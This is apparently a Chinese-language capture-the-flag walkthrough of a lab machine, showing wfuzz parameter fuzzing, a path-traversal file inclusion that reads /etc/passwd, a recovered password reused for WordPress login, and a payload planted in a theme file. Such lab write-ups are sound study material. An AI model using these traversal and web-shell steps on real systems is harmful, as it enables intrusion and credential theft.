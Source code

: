 
```shell
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hw 17 "http://192.168.1.63/image.php?secrettier360=FUZZ"
```
![Pasted image 20250123192508.png](/img/user/picture/Pasted%20image%2020250123192508.png)

我们发现有个`dev`
![Pasted image 20250123192535.png](/img/user/picture/Pasted%20image%2020250123192535.png)
我们发现就是我们之前看的文件，可以判断这里存在**文件包含**

```
http://192.168.1.63/image.php?secrettier360=../../../../../../../../etc/passwd
```
发现可以读取，有效信息：
```
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
```
也就是存在用户`victor`和`saket`
并且用户`saket`目录下有个`password.txt`

查看一下这个password.txt
![Pasted image 20250123193453.png](/img/user/picture/Pasted%20image%2020250123193453.png)
`follow_the_ippsec`

这个密码尝试进行ssh登录，未果


## 目录`wordpress/`
![Pasted image 20250123173810.png](/img/user/picture/Pasted%20image%2020250123173810.png)

![Pasted image 20250123174911.png](/img/user/picture/Pasted%20image%2020250123174911.png)


简单浏览一下可以看到`victor`是这里面用户之一
![Pasted image 20250123194044.png](/img/user/picture/Pasted%20image%2020250123194044.png)
其实也有专门对wordpress进行扫描的工具`wpscan`
因为wordpress是使用量最多的CMS

==//我发现我虚拟机网络有问题，弄了半天没弄好==


看到有登录入口
![Pasted image 20250123194058.png](/img/user/picture/Pasted%20image%2020250123194058.png)
我们尝试用上面的密码登陆一下，成功
`follow_the_ippsec`


在后台主题中插入payload
![Pasted image 20250123214130.png](/img/user/picture/Pasted%20image%2020250123214130.png)
访问对应主题文件
`http://192.168.1.63/wordpress/wp-content/themes/twentynineteen/secret.php`
